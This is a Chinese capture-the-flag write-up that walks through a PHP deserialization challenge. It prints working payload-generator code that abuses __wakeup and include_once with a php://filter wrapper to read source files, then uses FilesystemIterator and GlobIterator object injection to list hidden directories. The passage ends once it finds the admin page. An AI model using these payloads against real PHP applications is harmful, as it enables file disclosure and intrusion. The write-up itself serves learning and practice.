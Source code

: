 还是老规矩，给出了源码，我们先代码审计一下

首先，比较明显的是，`__wakeup`，当有`unserialize`的时候，会触发，而且对于`par2`参数又是可控的，所以我们利用`__wakeup`中的`include_once`文件包含

伪协议读取hint.php

```php
<?php
    class fxxk{
    public $par2='php://filter/read=convert.base64-encode/resource=';
}
$a=new fxxk();
echo urlencode(serialize($a));
?>
```

base64解码后得到hint.php内容

```
<?php

$hint = '向管理员的页面post一个参数message(告诉他，"iwantflag") 和 另一个参数 url（它会向这个url发送一个flag';
$hint .= '管理员的页面在当前目录下一个特殊文件夹里';
$hint .= '但是我不知道（你也猜不到的）文件夹名称和管理员页面的名称，更坏的消息是只能从127.0.0.1去访问，你能想个办法去看看（别扫 扫不出来!!!)';

```

根据提示，我们需要找到管理员界面的文件目录

我们需要利用newOne()函数，通过new一个内置类，然后通过`wuhu`函数，将内置类的东西输出出来

![image.png](https://i.loli.net/2021/10/20/vgSDatpCrWbnqB7.png)

比如说像`FilesystemIterator`类，就可以遍历目录，就先创建一个` FilesystemIterator`类的对象，里面的参数就是我们想遍历的目录，然后将这个对象`echo`出来，得到结果。

构造查文件目录的payload

```php
<?php
class fxxk{
    public $par0 = 'FilesystemIterator';
    public $par1 = './';
}
$a = new fxxk();
echo serialize($a);
?>
也可以利用
    $par0=GlobIterator();//遍历一个文件系统行为类似于
	$par1="glob://*";//查找匹配的文件路径模式
```

得到目录aaaaaaaaaaafxadwagaefae

然后继续，只需要把文件路径改一下，`./aaaaaaaaaaafxadwagaefae`

得到php文件为`UcantGuess.php`
